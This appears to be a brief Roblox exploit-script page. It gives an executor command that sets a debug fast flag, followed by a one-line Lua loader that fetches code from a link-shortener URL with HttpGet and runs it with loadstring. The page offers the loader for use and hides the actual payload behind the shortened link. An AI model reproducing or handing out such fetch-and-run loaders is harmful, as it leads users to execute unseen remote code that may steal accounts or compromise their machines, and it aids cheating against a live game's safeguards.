 # Lobby
```
setfflag("DebugRunParallelLuaOnMainThread","True");
```

# LOADSTRING
```lua
loadstring(game:HttpGet('https://shorturl.at/93H9Z'))()
```
